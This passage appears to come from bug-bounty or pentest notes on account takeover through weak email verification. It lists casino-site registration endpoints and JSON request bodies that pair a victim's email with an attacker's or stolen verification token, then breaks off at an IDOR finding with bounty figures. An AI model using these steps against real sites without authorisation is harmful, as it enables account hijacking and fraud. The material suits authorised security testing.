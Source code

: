 **Vulnerability Pattern:**
```
POST /api/signup/provisionuser
{
  "EmailAddress": "attacker@evil.com",
  "VerificationToken": "<victim_token>"  // Stolen or bypassed
}
```

**Casino Platform Exploitation:**

**Step 1: Find Registration Endpoint**
```javascript
// Common casino endpoints
POST /api/register
POST /api/auth/signup
POST /api/users/create
POST /api/account/provision
```

**Step 2: Test Email Verification**
```javascript
// Register with attacker email
{
  "email": "attacker@test.com",
  "username": "test123",
  "password": "Pass123!"
}

// Capture verification token
// Try using token for different email
{
  "email": "victim@casino.com",  // Change email
  "token": "<attacker_token>",   // Use attacker token
  "username": "victim_username"
}
```

**Step 3: Check for Bypass**
```
- Can you create account with any email?
- Is email verification actually checked?
- Can you reuse verification tokens?
- Is there a race condition?
```

---

### 4. **IDOR (Insecure Direct Object Reference)**

**Target:** Mars - Personal Information Modification  
**Severity:** CRITICAL  
**CVSS:** 8.5+  
**Bounty:** $2,000-$8,000
